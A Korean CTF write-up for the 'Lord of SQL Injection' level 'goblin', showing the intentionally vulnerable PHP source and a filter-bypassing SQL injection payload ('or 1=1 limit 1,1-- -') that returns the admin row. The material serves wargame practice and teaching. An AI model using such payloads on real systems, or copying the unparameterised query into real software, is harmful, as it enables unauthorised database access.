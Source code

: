 # Lord of SQL Injection No.3 - goblin
## 문제 출제 의도
따옴표 없이 SQL문을 조작 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스코드
~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
    $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("goblin");
    highlight_file(__FILE__); 
?>
~~~
+ 소스 코드 분석<hr>
~~~
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
 if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
~~~
+ <p>Get 방식으로 no를 받으며 만약 입력된 값 중에 prob, _, ., (, )이 하나라도 있으면 No Hack ~_~ 이 출력된다.</p>
+ 또한 입력 받은 값 중에 ', ", `이 하나라도 있다면 No Quotes ~_~이 출력된다.

~~~
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
~~~
+ 입력받은 no가 query문에 안에 들어감으로 SQL Injection 공격이 가능한걸 알 수 있다.

~~~
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
~~~
+ 만약 데이터베이스에서 받아온 id에 0 이 아닌 것이 들어 있다면 Hello 와 그 값을 출력한다.

~~~
if($result['id'] == 'admin') solve("goblin");
~~~
+ 만약 데이터베이스에서 받아온 id의 값이 'admin'이라면 문제 풀이에 성공한다.
## 문제 해결
+ 풀이 방법 <hr>
 **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다.
    ~~~
    ?no=1 or 1=1 limit 1,1-- -
    ~~~
    즉 where문을 무효화 시킨 다음 전체 값 중 2번째 행의 값만 가져오는 것이다.
    ?no=-1 or 1=1 을 입력하면 hello admin이라고 나오는데 이후 limit 값을 증가시켜 데이터베이스에는 3개의 행이 있다는 정보를 알수 있고 그 중 2번째 행의 id 값이 admin인 것을 알 수 있다.
    
    따라서 결과적으로 쿼리가
    ~~~
    select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
    ~~~
    이 되어 문제풀이에 성공한다.